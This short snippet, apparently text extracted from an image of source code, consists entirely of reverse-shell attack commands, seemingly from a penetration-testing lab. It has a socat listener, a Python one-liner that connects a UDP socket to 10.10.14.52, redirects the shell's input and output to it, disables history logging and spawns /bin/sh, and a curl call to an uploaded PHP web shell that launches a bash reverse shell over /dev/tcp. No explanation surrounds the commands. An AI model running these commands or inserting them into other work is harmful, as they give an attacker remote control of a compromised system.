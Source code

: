 ##############################################################  
socat file:`tty`,echo=0,raw udp-listen:1234  
import subprocess; subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.14.52\", 1230));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])  
  
curl -G http://10.10.10.24/uploads/akaed.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.52/443 0>&1'"  
##############################################################